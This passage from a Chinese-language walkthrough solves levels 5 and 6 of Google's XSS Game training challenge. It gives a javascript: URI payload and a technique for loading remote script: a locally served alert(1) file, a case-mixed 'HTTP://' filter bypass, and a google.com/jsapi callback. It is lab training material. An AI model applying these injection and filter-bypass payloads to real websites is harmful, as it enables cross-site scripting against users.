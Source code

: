 构造如下：`https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)`





6

引入外部js，过滤不严导致绕过造成xss

#后面能访问到url所指的地方，比如将其替换为`baidu.com`

所以这边写个简易的javascript脚本

```js
alert(1);
```

然后保存

用我们python3自带的简易服务器用于其url访问

```sh
$ python -m http.server 8000
```

然后访问本地8000端口就可以看到本地文件了

然后构造url：`https://xss-game.appspot.com/level6/frame#HTTP://127.0.0.1:8000/temp.js`

注意，题目js源码中有对http的过滤

当然也可以用google的jsapi：`https://xss-game.appspot.com/level6/frame#hTTps://google.com/jsapi?callback=alert`



通关撒花

![](XSS-Attack/XSS-game_done.png)
